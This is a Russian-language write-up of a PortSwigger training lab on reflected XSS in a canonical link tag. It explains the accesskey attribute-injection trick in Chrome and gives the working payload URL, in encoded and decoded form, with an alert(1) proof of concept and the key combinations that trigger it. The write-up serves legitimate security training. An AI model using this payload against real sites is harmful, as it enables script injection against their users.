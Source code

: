 # Reflected XSS in canonical link tag

## Theory

<h3>XSS в атрибутах HTML-тегов</h3>

Вы можете столкнуться с веб-сайтами, которые кодируют угловые скобки, но при этом позволяют вводить атрибуты. Иногда эти инъекции возможны даже внутри тегов, которые обычно не запускают события автоматически, например канонического тега. Вы можете использовать это поведение, используя ключи доступа и взаимодействие с пользователем в Chrome. Клавиши доступа позволяют вам предоставлять сочетания клавиш, которые ссылаются на определенный элемент. Атрибут accesskey позволяет определить букву, нажатие которой в сочетании с другими клавишами (они различаются на разных платформах) вызовут срабатывание событий.

## Writeup

Для решения данной лабораторной работы необходимо использовать Chrome.

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(XSS)_Cross-site_scripting/Reflected_XSS_in_canonical_link_tag/assets/1.png)

Для решения будем использовать следующий экплоит:
```
https://0a8f004603320401c05b686f004100b3.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

Код экплоита без URL кодировки:
```
https://0a8f004603320401c05b686f004100b3.web-security-academy.net/?'accesskey='x'onclick='alert(1)
```

Для вызова alert-а необходимо использовать одну из комбинаций клавиш(комбинация зависит от операционой системы, которую вы используете)

* ALT+SHIFT+X - на Windows
* CTRL+ALT+X - на MacOS
* Alt+X - на Linux

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/(XSS)_Cross-site_scripting/Reflected_XSS_in_canonical_link_tag/assets/2.png)
